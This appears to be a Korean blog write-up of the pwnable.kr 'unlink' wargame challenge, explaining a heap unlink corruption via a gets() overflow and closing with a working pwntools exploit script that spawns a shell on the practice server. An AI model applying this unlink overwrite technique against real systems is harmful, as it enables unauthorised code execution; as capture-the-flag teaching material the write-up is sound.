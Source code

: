 ```yaml
---
title: ! "[pwnable.kr] unlink"
excerpt_separator: <!--more-->
date: 2018-09-19
comments : true
tags:
  - pwnable
  - unlink
  - heap
  - chaem
categories:
  - pwn
---
```

<br>
`pwnable.kr` Toddler's Bottle의 마지막 문제인 unlink문제를 보겠습니다!

<!--more-->

문제를 먼저 풀어보고 싶은 사람은 아래 링크로 고고! 

[pwnable.kr](http://pwnable.kr/play.php)  

![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_01.PNG)  
<br>
우선 문제의 제목대로 unlink문제는 unlink corruption에 관한 문제입니당 후후  
문제 바이너리를 쭉 살펴봤을 때 보이는 특징은

```  

1. system함수를 주고있어요!!!  
shell을 따는 문제라는 것을 알 수 있으며, 나중에 요 함수를 호출할 날이 올 것을 고대하고 있으면 되겠네용  

2. 그 취약하기로 유명한 gets함수로 입력을 받고 있어요!!! overflow 냄새가 납니당 ㅎㅎ  

3. stack /heap 주소를 친절하게 leak해서 알려주고 있어요!!!  
주소를 다 알려주었으니 main함수의 ret을 shell주소로 덮을 일만 남았네용  

```

<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_02.PNG)  
<br>
일단, heap의 구조를 봅시다. fd와 bk의 위치에 주소값을 보면 A<->B<->C 이렇게 서로를 가리키 있는 것을 볼 수 있습니다.  
<br>
![]({{ site.baseurl }}/assets/images/chaem/pwnable.kr/unlink_03.PNG)  
참고 이미지 출처 : [Heap 영역에서 발생하는 취약점을 알아보자!](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  

그렇지만 unlink함수를 실행한 후에는 A<->C만 가리키도록 바뀌게됩니다.  
unlink함수는 어떻게 생겼는지 함 봐봅시다!!
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_04.PNG)  
<br>
즉, B의 fd와 bk를 조작하여 B를 빼고 A와 C가 서로를 가리키 한다는 것을 알 수 있었죵!  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_05.PNG)  
<br>
그리고 위에서 한번 언급했듯이 gets를 사용함으로써 overflow가 발생합니다.  
a 16개까지는 괜찮았으나 17개부터 segmentation fault!
이 overflow를 이용해서 B의 fd와 bk까지 우리가 직접 조작할 수 있게되는 것입니다.  
<br>
문제에서 친절하게 stack과 heap의 주소를 leak해주기 때문에 이 주소를 그대로 받아오고, main함수의 return 값을 shell(system함수가 들어있는 함수)함수의 주소로 덮어주면 됩니다.  
하지만!!!! shell함수가 code영역을 사용하여 `쓰기권한`이 없기때문에 다른 방법을 더 모색해봐야합니다.  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_06.PNG)  
<br>
gdb로 main함수의 마지막 부분을 보면 우리가 일반적으로 알고있는 구조와는 다른 것을 볼 수 있습니다. ebp-4의 값을 ecx레지스터에 넣고 다시 ecx-0x4를 참조해 esp를 조정하기 때문에, 이 esp에서 eip를 설정할 수 있게 됩니다.  
<br>
unlink함수를 보면 ebp를 조작가능한 것을 볼 수 있습니다. 즉 unlink에서부 부터 ebp를 조작하여 최종적으로 esp를 컨트롤할 수 있게 되는것입니다.  
따라서, `ebp-4의 stack값을 덮어 쓰면, 주소가 가리키는 것보다 4bytes 앞부터 실행될 것입니다. 우리는 heap을 제어할 수 있으므로 그 시점에 shell의 주소를 쓰면 되는 것이죠!`  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_07.PNG)  
<br>
ebp-0x4의 주소와 문제에서 leak해주는 heap주소의 차이는 0x10입니다. 즉, ebp-0x4의 주소와 A의 시작주소가 0x10차이 나는 것입니다. (B->fd)  
또한, A->buf에서 16bytes를 계산하여야 B이지만, 이미 4bytes를 포함하여 계산한 것이므로 12byte로 계산해주면 됩니다. (B->bk)  
<br>
![]({{ site.baseurl }}/assets/images/pwnable.kr/unlink_08.PNG)  
<br>

```  

#! usr/bin/env python
from pwn import *

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process("/home/unlink/unlink")

s.recvuntil('here is stack address leak: ')
stack_addr = int(s.recv(10),16)
s.recvuntil('here is heap address leak: ')
heap_addr = int(s.recv(10),16)

log.success('Stack leak : ' + hex(stack_addr))
log.success('Heap leak : ' + hex(heap_addr))

payload = p32(0x080484eb) #call shell
payload +="A"*12
payload += p32(heap_addr+12) #B->bk
payload += p32(stack_addr+0x10) #B->fd

s.sendlineafter('get shell!\n', payload)
s.interactive()

```
